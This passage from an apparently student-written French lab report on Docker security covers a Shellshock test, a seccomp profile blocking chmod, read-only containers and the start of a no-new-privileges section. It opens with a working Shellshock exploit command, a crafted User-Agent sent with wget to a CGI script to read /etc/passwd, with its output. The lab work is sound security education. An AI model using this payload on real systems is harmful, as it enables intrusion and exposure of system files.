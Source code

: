 ```bash
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dio@lucky-theone:~$ wget -U 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash :'' http://172.17.0.2/cgi-bin/simple-cgi-bin.sh
--2024-05-06 14:36:07--  http://bash/
Resolving bash (bash)... failed: Name or service not known.
wget: unable to resolve host address ‘bash’
:: Scheme missing.
--2024-05-06 14:36:07--  http://172.17.0.2/cgi-bin/simple-cgi-bin.sh
Connecting to 172.17.0.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]
Saving to: ‘simple-cgi-bin.sh.1’

simple-cgi-bin.sh.1                                      [ <=>                                                                                                                  ]      24  --.-KB/s    in 0s      

2024-05-06 14:36:07 (1,71 MB/s) - ‘simple-cgi-bin.sh.1’ saved [24]

FINISHED --2024-05-06 14:36:07--
Total wall clock time: 0,03s
Downloaded: 1 files, 24 in 0s (1,71 MB/s)
```

## 7. Utilisation de SecComp pour limiter l’utilisation de certains appels systèmes

2) Voici la commande :

```bash
docker run --security-opt="seccomp=default-no-chmod.json" debian:latest 
```

3) Le fichier est un fichier de configuration qui autorise ou non l'accès à certain paquets.

4) Voici le retour de la commande:

```bash
root@21be07cadbd7:/# chmod 777 /etc/passwd  
chmod: changing permissions of '/etc/passwd': Operation not permitted
```

## 8. Containers en lecture seule

Comme nous pouvons le voir sur l'image ci-dessous nous ne pouvons pas nous connecter au docker :

![read-only](img/read-only.png)

## 9. Contrôle de l’élévation de privilèges dans un container via l’option "-security-opt=no-new-privileges"
